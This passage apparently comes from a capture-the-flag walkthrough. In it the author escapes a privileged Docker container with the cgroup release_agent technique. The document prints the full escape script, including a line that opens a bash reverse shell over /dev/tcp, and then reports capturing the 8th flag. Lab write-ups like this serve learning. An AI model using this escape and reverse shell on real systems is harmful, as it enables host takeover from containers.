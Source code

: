 yup we are. `.dockerenv` file confirms.

If we remember correctly we are in `privileged` container. so lets escape it. I will copy paste the exploit from internet like shameless script kiddy.(I have attached the resource.)

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release

host_path= `sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd

echo "bash -i >& /dev/tcp/127.0.0.1/7878 0>&1 > $host_path/output" >> /cmd

chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

```

I wiill be listening for reverse shell outside the container in shell of escapegod user. (escapegod user that we got earlier).

![](images/final_shell.png)

We have finally got out 8th flag.



# FINAL CHALLENGE
